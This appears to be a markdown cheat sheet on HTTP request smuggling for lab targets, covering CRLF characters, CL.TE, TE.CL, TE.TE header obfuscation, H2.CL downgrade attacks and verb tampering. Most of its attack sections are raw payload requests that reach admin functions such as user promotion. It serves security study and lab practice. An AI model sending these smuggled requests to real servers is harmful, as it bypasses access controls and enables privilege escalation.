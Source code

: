 ## CRLF Injection
|Description|Character|ASCII (Decimal)|ASCII (Hex)|URL Encoded|
|---|---|---|---|---|
|Carriage Return| `\r` | `13` | `0x0D` | `%0D`|
|Line Feed| `\n` | `10` | `0x0A` | `%0A`|


## Request Smuggling
#### Content-Length
- request body length specified in the `Content-Length` header
```http
POST / HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

param1=HelloWorld&param2=Test
```

#### Chunked Encoding
- `Transfer-Encoding` header set to `chunked` to specify chunked encoding
- Each chunk contains the chunk length in hex followed by a newline and the chunk data
- Request terminated with empty chunk `0`
```http
POST / HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

1d
param1=HelloWorld&param2=Test
0


```

## CL.TE Vulnerability
- reverse proxy uses the `Content-Length` header, web server uses the `Transfer-Encoding` header
```http
POST / HTTP/1.1
Host: clte.htb
Content-Length: 52
Transfer-Encoding: chunked

0

POST /admin.php?promote_uid=2 HTTP/1.1
Dummy: 
```

## TE.CL Vulnerability
- reverse proxy uses the `Transfer-Encoding` header, web server uses the `Content-Length` header
```http
GET /404 HTTP/1.1
Host: tecl.htb
Content-Length: 4
Transfer-Encoding: chunked

27
GET /admin HTTP/1.1
Host: tecl.htb


0


```

## TE.TE Vulnerability
- obfuscate `Transfer-Encoding` header from one of the systems to provoke a CL.TE or TE.CL vulnerability

|Description|Header|
|---|---|
|Substring match|`Transfer-Encoding: testchunked`|
|Space in Header name| `Transfer-Encoding : chunked`|
|Horizontal Tab Separator| `Transfer-Encoding:[\x09]chunked`|
|Vertical Tab Separator|`Transfer-Encoding:[\x0b]chunked`|
|Leading space|` Transfer-Encoding: chunked`|

## HTTP/2 Downgrading
- HTTP/2 is a binary protocol
- HTTP/2 uses pseudo-headers:
	- `:method`: the HTTP method
	- `:scheme`: the protocol scheme (typically `http` or `https`)
	- `:authority`: similar to the HTTP `Host` header
	- `:path`: the requested path including the query string
- HTTP/2 downgrading occurs when the reverse proxy rewrites an HTTP/2 request from the client to an HTTP/1.1 request which is forwarded to the web server

## H2.CL vulnerability
- Injection of a `Content-Length` header which is used by the web server after the request was rewritten by the reverse proxy
```http
POST /index.php HTTP/2
Host: http2.htb
Content-Length: 0

POST /index.php?reveal_flag=1 HTTP/1.1
Foo: 
```

## HTTP Verb Tampering

`HTTP Method`
- `HEAD`
- `PUT`
- `DELETE`
- `OPTIONS`
- `PATCH`

| **Command**   | **Description**   |
| --------------|-------------------|
| `-X OPTIONS` | Set HTTP Method with Curl |
